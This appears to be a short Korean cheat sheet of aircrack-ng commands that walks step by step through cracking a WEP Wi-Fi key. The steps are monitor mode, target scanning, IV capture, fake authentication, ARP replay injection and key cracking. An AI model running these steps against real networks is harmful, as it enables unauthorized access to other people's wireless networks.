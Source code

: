 ### 무선랜카드를 모니터모드로 전환
airmon-ng start [interface name]

### 모드변경 확인
iwconfig

### 작업 방해 프로세스들 종료
airmon-ng check kill

### 인터페이스 이름 확인
airmon-ng

### 공격할 무선랜 검색
BSSID와 channel 확인  
airodump-ng [interface name]

### 인터페이스 채널 맞춤
airodump-ng [interface name] --channel -[channel Num]

## 새 터미널
### weakness iv 패킷 수집 (Data가 20000개 이상 모여야함)
airodump-ng [interface name] --channel -[channel Num] --bssid [MAC] -w [Filename]

### 패킷 강제 발생
무선랜 가짜 인증  
aireplay-ng -1 [delay time] -a [bssid] [interface name]  
arp rep 강제 발생  
aireplay-ng -3 -b [bssid] [interface name]

### 암호 키 크래킹
aircrack-ng [File name]
